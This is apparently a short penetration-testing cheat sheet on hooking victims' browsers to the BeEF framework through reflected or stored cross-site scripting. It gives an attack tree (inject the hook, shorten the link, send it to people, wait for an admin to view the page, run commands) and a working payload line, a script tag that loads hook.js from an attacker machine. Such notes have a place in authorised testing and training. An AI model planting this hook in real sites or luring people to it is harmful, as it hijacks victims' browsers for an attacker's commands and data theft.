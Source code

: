 # Hooking targets to BeEF using XSS

## Attack tree

```text
1 Reflected XSS
    1.1 Create BeEF hook
    1.2 Inject hook script in vulnerable pages
    1.3 Take url and tiny it
    1.4 Send tiny link to people
    1.3 Execute commands from BeEF
2 Stored XSS
    2.1 Create BeEF hook
    2.2 Inject hook script in vulnerable pages
    2.3 Send link to people (and may the admin often look at pages, heh)
    2.4 Execute commands from BeEF
```

## Examples

To create a BeEF hook, copy the code given by beEF and replace IP address with address of hacking machine:

    <script src="http://192.168.122.104:3000/hook.js"></script>

## Tools

* [BeEF XSS](https://www.kali.org/tools/beef-xss/)

